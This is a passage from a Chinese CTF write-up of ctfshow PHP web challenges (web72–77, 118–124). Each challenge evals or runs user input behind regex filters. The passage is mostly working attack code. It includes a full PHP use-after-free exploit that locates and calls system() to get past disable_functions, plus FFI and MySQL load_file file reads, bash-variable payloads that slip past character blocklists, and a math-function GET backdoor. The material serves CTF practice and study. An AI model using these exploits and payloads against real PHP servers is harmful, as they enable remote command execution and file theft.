ini_set('display_errors', 0);
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
        $s = ob_get_contents();
        ob_end_clean();
        echo preg_replace("/[0-9]|[a-z]/i","?",$s);
}else{
    highlight_file(__FILE__);
}

?>

你要上天吗？
```

**payload**

```
c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}exit(0);
```

get flag exp

```php
c=function ctfshow($cmd) {
    global $abc, $helper, $backtrace;

    class Vuln {
        public $a;
        public function __destruct() { 
            global $backtrace; 
            unset($this->a);
            $backtrace = (new Exception)->getTrace();
            if(!isset($backtrace[1]['args'])) {
                $backtrace = debug_backtrace();
            }
        }
    }

    class Helper {
        public $a, $b, $c, $d;
    }

    function str2ptr(&$str, $p = 0, $s = 8) {
        $address = 0;
        for($j = $s-1; $j >= 0; $j--) {
            $address <<= 8;
            $address |= ord($str[$p+$j]);
        }
        return $address;
    }

    function ptr2str($ptr, $m = 8) {
        $out = "";
        for ($i=0; $i < $m; $i++) {
            $out .= sprintf("%c",($ptr & 0xff));
            $ptr >>= 8;
        }
        return $out;
    }

    function write(&$str, $p, $v, $n = 8) {
        $i = 0;
        for($i = 0; $i < $n; $i++) {
            $str[$p + $i] = sprintf("%c",($v & 0xff));
            $v >>= 8;
        }
    }

    function leak($addr, $p = 0, $s = 8) {
        global $abc, $helper;
        write($abc, 0x68, $addr + $p - 0x10);
        $leak = strlen($helper->a);
        if($s != 8) { $leak %= 2 << ($s * 8) - 1; }
        return $leak;
    }

    function parse_elf($base) {
        $e_type = leak($base, 0x10, 2);

        $e_phoff = leak($base, 0x20);
        $e_phentsize = leak($base, 0x36, 2);
        $e_phnum = leak($base, 0x38, 2);

        for($i = 0; $i < $e_phnum; $i++) {
            $header = $base + $e_phoff + $i * $e_phentsize;
            $p_type  = leak($header, 0, 4);
            $p_flags = leak($header, 4, 4);
            $p_vaddr = leak($header, 0x10);
            $p_memsz = leak($header, 0x28);

            if($p_type == 1 && $p_flags == 6) { 

                $data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;
                $data_size = $p_memsz;
            } else if($p_type == 1 && $p_flags == 5) { 
                $text_size = $p_memsz;
            }
        }

        if(!$data_addr || !$text_size || !$data_size)
            return false;

        return [$data_addr, $text_size, $data_size];
    }

    function get_basic_funcs($base, $elf) {
        list($data_addr, $text_size, $data_size) = $elf;
        for($i = 0; $i < $data_size / 8; $i++) {
            $leak = leak($data_addr, $i * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                
                if($deref != 0x746e6174736e6f63)
                    continue;
            } else continue;

            $leak = leak($data_addr, ($i + 4) * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                
                if($deref != 0x786568326e6962)
                    continue;
            } else continue;

            return $data_addr + $i * 8;
        }
    }

    function get_binary_base($binary_leak) {
        $base = 0;
        $start = $binary_leak & 0xfffffffffffff000;
        for($i = 0; $i < 0x1000; $i++) {
            $addr = $start - 0x1000 * $i;
            $leak = leak($addr, 0, 7);
            if($leak == 0x10102464c457f) {
                return $addr;
            }
        }
    }

    function get_system($basic_funcs) {
        $addr = $basic_funcs;
        do {
            $f_entry = leak($addr);
            $f_name = leak($f_entry, 0, 6);

            if($f_name == 0x6d6574737973) {
                return leak($addr + 8);
            }
            $addr += 0x20;
        } while($f_entry != 0);
        return false;
    }

    function trigger_uaf($arg) {

        $arg = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');
        $vuln = new Vuln();
        $vuln->a = $arg;
    }

    if(stristr(PHP_OS, 'WIN')) {
        die('This PoC is for *nix systems only.');
    }

    $n_alloc = 10; 
    $contiguous = [];
    for($i = 0; $i < $n_alloc; $i++)
        $contiguous[] = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');

    trigger_uaf('x');
    $abc = $backtrace[1]['args'][0];

    $helper = new Helper;
    $helper->b = function ($x) { };

    if(strlen($abc) == 79 || strlen($abc) == 0) {
        die("UAF failed");
    }

    $closure_handlers = str2ptr($abc, 0);
    $php_heap = str2ptr($abc, 0x58);
    $abc_addr = $php_heap - 0xc8;

    write($abc, 0x60, 2);
    write($abc, 0x70, 6);

    write($abc, 0x10, $abc_addr + 0x60);
    write($abc, 0x18, 0xa);

    $closure_obj = str2ptr($abc, 0x20);

    $binary_leak = leak($closure_handlers, 8);
    if(!($base = get_binary_base($binary_leak))) {
        die("Couldn't determine binary base address");
    }

    if(!($elf = parse_elf($base))) {
        die("Couldn't parse ELF header");
    }

    if(!($basic_funcs = get_basic_funcs($base, $elf))) {
        die("Couldn't get basic_functions address");
    }

    if(!($zif_system = get_system($basic_funcs))) {
        die("Couldn't get zif_system address");
    }


    $fake_obj_offset = 0xd0;
    for($i = 0; $i < 0x110; $i += 8) {
        write($abc, $fake_obj_offset + $i, leak($closure_obj, $i));
    }

    write($abc, 0x20, $abc_addr + $fake_obj_offset);
    write($abc, 0xd0 + 0x38, 1, 4); 
    write($abc, 0xd0 + 0x68, $zif_system); 

    ($helper->b)($cmd);
    exit();
}

ctfshow("cat /flag0.txt");ob_end_flush();
#需要通过url编码哦

```

---

#### web73

**payload**

```
c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}exit(0);
c=include("/flagc.txt");exit(0);
```

---

#### web74

和上一题的payload一样

---

#### web75

**payload**

```
c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}exit(0);

c=try {$dbh = new PDO('mysql:host=localhost;dbname=ctftraining', 'root',
'root');foreach($dbh->query('select load_file("/flag36.txt")') as $row)
{echo($row[0])."|"; }$dbh = null;}catch (PDOException $e) {echo $e-
>getMessage();exit(0);}exit(0);
```

---

#### web76

和上一题的payload一样

---

#### web77

[FF1拓展(php7.4开始才有)](https://www.laruence.com/2020/03/11/5475.html)

**payload**

```
c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}exit(0);

c=?><?php $ffi = FFI::cdef("int system(const char *command);");$ffi->system("/readflag >1.txt");exit();
```

---

### 类型五

运用环境变量构建命令

#### web118

bash内置变量利用

**payload**

```
${PATH:~A}${PWD:~A} ????.???
```

---

#### web119

**payload**

```
${USER:~${PHP_VERSION:~A}:${PHP_VERSION:~A}} ????.???
```

---

#### web120

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_POST['code'])){
    $code=$_POST['code'];
    if(!preg_match('/\x09|\x0a|[a-z]|[0-9]|PATH|BASH|HOME|\/|\(|\)|\[|\]|\\\\|\+|\-|\!|\=|\^|\*|\x26|\%|\<|\>|\'|\"|\`|\||\,/', $code)){    
        if(strlen($code)>65){
            echo '<div align="center">'.'you are so long , I dont like '.'</div>';
        }
        else{
        echo '<div align="center">'.system($code).'</div>';
        }
    }
    else{
     echo '<div align="center">evil input</div>';
    }
}

?>

```

**payload**

```
${PWD::${#SHLVL}}???${PWD::${#SHLVL}}?${USER:~A}? ????.???
```

---

#### web121

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_POST['code'])){
    $code=$_POST['code'];
    if(!preg_match('/\x09|\x0a|[a-z]|[0-9]|FLAG|PATH|BASH|HOME|HISTIGNORE|HISTFILESIZE|HISTFILE|HISTCMD|USER|TERM|HOSTNAME|HOSTTYPE|MACHTYPE|PPID|SHLVL|FUNCNAME|\/|\(|\)|\[|\]|\\\\|\+|\-|_|~|\!|\=|\^|\*|\x26|\%|\<|\>|\'|\"|\`|\||\,/', $code)){    
        if(strlen($code)>65){
            echo '<div align="center">'.'you are so long , I dont like '.'</div>';
        }
        else{
        echo '<div align="center">'.system($code).'</div>';
        }
    }
    else{
     echo '<div align="center">evil input</div>';
    }
}

?>

```

**payload**

```
${PWD::${#?}}???${PWD::${#?}}?????${#RANDOM} ????.???
```

---

#### web122

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_POST['code'])){
    $code=$_POST['code'];
    if(!preg_match('/\x09|\x0a|[a-z]|[0-9]|FLAG|PATH|BASH|PWD|HISTIGNORE|HISTFILESIZE|HISTFILE|HISTCMD|USER|TERM|HOSTNAME|HOSTTYPE|MACHTYPE|PPID|SHLVL|FUNCNAME|\/|\(|\)|\[|\]|\\\\|\+|\-|_|~|\!|\=|\^|\*|\x26|#|%|\>|\'|\"|\`|\||\,/', $code)){    
        if(strlen($code)>65){
            echo '<div align="center">'.'you are so long , I dont like '.'</div>';
        }
        else{
        echo '<div align="center">'.system($code).'</div>';
        }
    }
    else{
     echo '<div align="center">evil input</div>';
    }
}

?>


```

**payload**

```
<A;${HOME::$?}???${HOME::$?}?????${RANDOM::$?} ????.???
```

---

### 类型六

构建get后门

#### web124

```php
 <?php

error_reporting(0);
//听说你很喜欢数学，不知道你是否爱它胜过爱flag
if(!isset($_GET['c'])){
    show_source(__FILE__);
}else{
    //例子 c=20-1
    $content = $_GET['c'];
    if (strlen($content) >= 80) {
        die("太长了不会算");
    }
    $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/m', $content)) {
            die("请不要输入奇奇怪怪的字符");
        }
    }
    //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
    $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);  
    foreach ($used_funcs[0] as $func) {
        if (!in_array($func, $whitelist)) {
            die("请不要输入奇奇怪怪的函数");
        }
    }
    //帮你算出答案
    eval('echo '.$content.';');
} 
```

**payload**

```
?c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));$$pi{abs}($$pi{acos});&abs=system&acos=ls
```

---

<div style="page-break-after:always"></div>